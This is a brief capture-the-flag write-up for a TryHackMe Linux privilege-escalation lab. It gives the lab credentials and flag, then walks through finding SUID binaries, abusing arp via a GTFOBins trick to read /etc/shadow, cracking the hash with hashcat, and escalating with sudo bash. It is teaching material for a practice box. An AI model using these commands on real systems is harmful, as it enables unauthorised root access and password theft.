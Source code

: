# Matheus Jesus 11-04-2020

## Try Hack Me - [Linux Privesc Playground](https://tryhackme.com/room/privescplayground)

### IP 10.10.169.48

### SSH CREDS user:password

#### user is already root

cat /root/flag.txt
flag.txt -> THM{3asy_f14g_1m40}

#### SUID

find / -perm /u=s 2>/dev/null

https://gtfobins.github.io/gtfobins/arp/
(https://github.com/mzfr/gtfo)
exploit it to read files

```sh
LFILE=/etc/shadow
sudo arp -v -f "$LFILE"
```

##### Shadow crack

hashcat -m 1800 -a 0 -o found1.txt hash.txt /usr/share/wordlists/rockyou.txt --force
$6$uTSx9lr5$aUa23L083PGfA1NYsK36QXotKO.2duX0PRDClSdL3IFa74Hm0NspHgr1wdhzbWugsRNSKfMJg5tblqdy6EKdh/:password

#### Sudo

try running

sudo /bin/bash
